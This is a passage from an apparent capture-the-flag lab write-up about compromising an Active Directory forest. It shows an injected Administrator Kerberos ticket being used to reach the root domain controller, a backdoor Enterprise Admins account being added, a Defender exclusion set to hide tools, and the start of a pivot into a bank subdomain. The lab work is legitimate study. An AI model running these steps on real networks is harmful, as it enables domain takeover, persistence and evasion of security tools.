 	klist
	Current LogonId is 0:0x6ac44
	Cached Tickets: (1)
	#0>     Client: Administrator @ CORP.THERESERVE.LOC
		Server: krbtgt/corp.thereserve.loc @ CORP.THERESERVE.LOC
		KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
		Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
		Start Time: 4/24/2024 13:13:24 (local)
		End Time:   4/24/2024 23:13:24 (local)
		Renew Time: 5/1/2024 13:13:24 (local)
		Session Key Type: RSADSI RC4-HMAC(NT)
		Cache Flags: 0x1 -> PRIMARY
		Kdc Called:
  
Check if we can access the rootdc:

	dir \\rootdc.thereserve.loc\C$
 	Volume in drive \\rootdc.thereserve.loc\C$ has no label.
 	Volume Serial Number is AE32-1DF2
	Directory of \\rootdc.thereserve.loc\C$
 	04/01/2023  04:10 AM               427 adusers_list.csv
	03/17/2023  07:18 AM                85 dns_entries.csv
	...
 
 ### Compromise rootdc 
 Having injected in our sessione the Administrator ticket we can access rootdc:

 	PS C:\Users\it.support\def-exc> Enter-PSSession -computer rootdc.THERESERVE.LOC
	[rootdc.THERESERVE.LOC]: PS C:\Users\Administrator.CORP\Documents>

 I added a new enterprise admins to the root domain controller:
 
 	 net user it.supportEA Password2@ /ADD /DOMAIN
 	 net group "Enterprise Admins" it.supportEA /ADD /DOMAIN

 We can now use remmina to access the rootdc and submit flag 15 and 16.
 Since we already know the FQDN of the bank subdomain dc, let's find his IP address:

 	nslookup bank.thereserve.loc
	DNS request timed out.
	    timeout was 2 seconds.
	...
	Non-authoritative answer:
	Name:    bank.thereserve.loc
	Address:  10.200.89.101
 
### Pivoting to bank subdomain
From the rootdc server we can reach the bank DC. Even if the subnet is the same, the bank's subdomain is isolated from the corp subdomain (as in a real scenario would be),
anyway, thanks to ligolo listener, we can use wrk1 host as pivot host to reach the bank subdomain as well. First of all I proceed to configure the usual Defender exclusion folder:

 	Set-MpPreference -ExclusionPath "C:\users\it.supportea\def-exc"	

Then we need to perform the following steps:
1. on the proxy (our attacker machine) add a new tun interface
